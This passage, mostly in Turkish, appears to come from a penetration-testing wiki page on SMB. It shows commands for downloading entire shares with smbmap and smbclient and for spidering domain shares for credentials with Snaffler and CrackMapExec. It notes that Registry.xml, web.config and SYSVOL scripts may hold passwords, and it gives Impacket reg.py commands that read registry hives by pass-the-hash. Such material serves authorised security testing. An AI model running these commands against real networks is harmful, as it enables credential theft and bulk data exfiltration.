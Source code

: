 Kimlik bilgileriyle/Pass-the-Hash ile nasıl bağlanacağınızı öğrenmek için önceki bölümleri okuyun.
```bash
#Search a file and download
sudo smbmap -R Folder -H <IP> -A <FileName> -q # Search the file in recursive mode and download it inside /usr/share/smbmap
```

```bash
#Download all
smbclient //<IP>/<share>
> mask ""
> recurse
> prompt
> mget *
#Download everything to current directory
```
Komutlar:

* mask: dizin içindeki dosyaları filtrelemek için kullanılan maskeyi belirtir (örneğin, tüm dosyalar için "")
* recurse: rekürsiv işlemi açar (varsayılan: kapalı)
* prompt: dosya adları için soru sormayı kapatır (varsayılan: açık)
* mget: maskeye uyan tüm dosyaları ana makineden istemci makineye kopyalar

(_Smbclient'in man sayfasından bilgiler_)

### Etki Alanı Paylaşılan Klasörler Arama

* [**Snaffler**](https://github.com/SnaffCon/Snaffler)\*\*\*\*
```bash
Snaffler.exe -s -d domain.local -o snaffler.log -v data
```
* [**CrackMapExec**](https://wiki.porchetta.industries/smb-protocol/spidering-shares) örümcek.
* `-M spider_plus [--share <paylaşım_adı>]`
* `--pattern txt`
```bash
sudo crackmapexec smb 10.10.10.10 -u username -p pass -M spider_plus --share 'Department Shares'
```
Paylaşımlardan özellikle ilginç olanlar, Grup İlkesi aracılığıyla otomatik oturum açma yapılandırılmış kullanıcılar için şifreler içerebilecek olan **`Registry.xml`** adlı dosyalardır. Veya kimlik bilgileri içeren **`web.config`** dosyaları.

{% hint style="info" %}
**SYSVOL paylaşımı**, etki alanındaki tüm kimlik doğrulama yapılmış kullanıcılar tarafından **okunabilir**. Orada birçok farklı toplu iş, VBScript ve PowerShell **betikleri** bulabilirsiniz.\
İçindeki **betikleri** kontrol etmelisiniz, çünkü şifreler gibi hassas bilgiler bulabilirsiniz.
{% endhint %}

## Registry Okuma

Bazı keşfedilen kimlik bilgilerini kullanarak **registry'yi okuyabilirsiniz**. Impacket **`reg.py`** kullanarak deneyebilirsiniz:
```bash
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s
```
## Son Aşama Saldırı
